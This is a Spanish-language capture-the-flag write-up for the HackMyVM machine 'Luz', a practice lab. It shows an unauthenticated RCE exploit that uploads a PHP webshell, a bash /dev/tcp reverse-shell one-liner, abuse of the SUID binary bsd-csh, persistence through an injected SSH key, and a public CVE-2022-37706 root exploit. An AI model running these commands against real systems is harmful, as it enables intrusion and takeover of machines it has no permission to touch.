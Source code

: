 # Luz - Writeup HackMyVm

El día de hoy veremos cómo resolver la máquina **Luz** de la plataforma HackMyVM.  
Durante la explotación tocaremos las siguientes técnicas:

- Escaneo de puertos  
- Online Food Ordering System 2.0 - RCE (Remote Code Execution)  
- Abuso de binarios SUID  
- Escalada de privilegios vía CVE-2022-37706  

## Enumeración

Comenzamos con un escaneo de puertos con **nmap**:

```bash
sudo nmap -p- --open -sSCV --min-rate 5000 -n -Pn 192.168.1.161
```

Resultado:

```java
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 5f:9e:28:74:86:8e:d7:5b:bd:96:00:4b:d0:7f:56:e3 (ECDSA)
|   256 fb:3b:fd:9c:9f:4a:7c:8c:1e:a8:27:e2:8d:bf:2b:e5 (ED25519)
80/tcp open  http    syn-ack ttl 64 nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
MAC Address: 08:00:27:E7:42:B1 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

En el puerto 80 descubrimos que se trata de un sistema llamado **Online Food Ordering System V2**:  
![alt text](./posts/img/luz001.png)

Buscamos información en Google y encontramos que es vulnerable a **RCE** sin ncesidad de autenticación:  
![alt text](./posts/img/luz002.png)

## Explotación

Descargamos el exploit **50305.py** de exploitDB y lo ejecutamos:

```bash
python3 50305.py
```
```bash
               Online Food Ordering System v2.0
            Unauthenticated Remote Code Execution
               Abdullah "hax.3xploit" Khawaja

[+]PHP Shell has been uploaded successfully! 
[+] Successfully connected to webshell.
CD%> whoami
www-data
```

Ya tenemos acceso como **www-data**. Para mejorar la interacción, nos ponemos en escucha y enviamos una reverse shell:

```bash
nc -lvnp 9001
```

En el webshell:

```bash
/bin/bash -c "bash -i >& /dev/tcp/192.168.1.152/9001 0>&1"
```

Recibimos la shell:

```bash
Ncat: Connection from 192.168.1.161
bash: no job control in this shell
www-data@luz:/var/www/html$
```

Dentro de la máquina encontramos la flag de usuario en **/var/www/html**:

```bash
www-data@luz:/var/www/html$ ls
fos  user.txt
```

## Escalada de Privilegios
Vemos los SUID:

```bash
find / -perm -4000 2>/dev/null
```
```bash
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_system
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/su
/usr/bin/mount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/bsd-csh
/usr/bin/fusermount3
```

En GTFOBins descubrimos que **/usr/bin/bsd-csh** es explotable con la opción `-b`.  
Esto nos permite cambiar al usuario **aelis**:

```bash
/usr/bin/bsd-csh -b
% whoami
aelis
```

Revisamos el directorio home:

```bash
aelis@luz:~$ ls -la
drwx------ 3 aelis aelis 4096 Aug 25 13:20 .ssh
```

Podemos inyectar nuestra clave pública.

En nuestra máquina:

```bash
ssh-keygen -t ed25519
cat id_rsa.pub
```

Copiamos la clave y en la víctima la guardamos en `.ssh/authorized_keys`.  
Ahora podemos conectarnos directamente:

```bash
ssh aelis@192.168.1.161 -i id_rsa
```

### Escalada final a root

Analizando de nuevo los binarios SUID, encontramos **enlightenment_ckpasswd** vulnerable al **CVE-2022-37706**.

Descargamos un exploit público:

```bash
git clone https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit.git
cd CVE-2022-37706-LPE-exploit
chmod +x exploit.sh
./exploit.sh
```

Salida:

```bash
[*] Trying to pop a root shell!
[+] Enjoy the root shell :)
# whoami
root
```

¡Y somos root! 🎉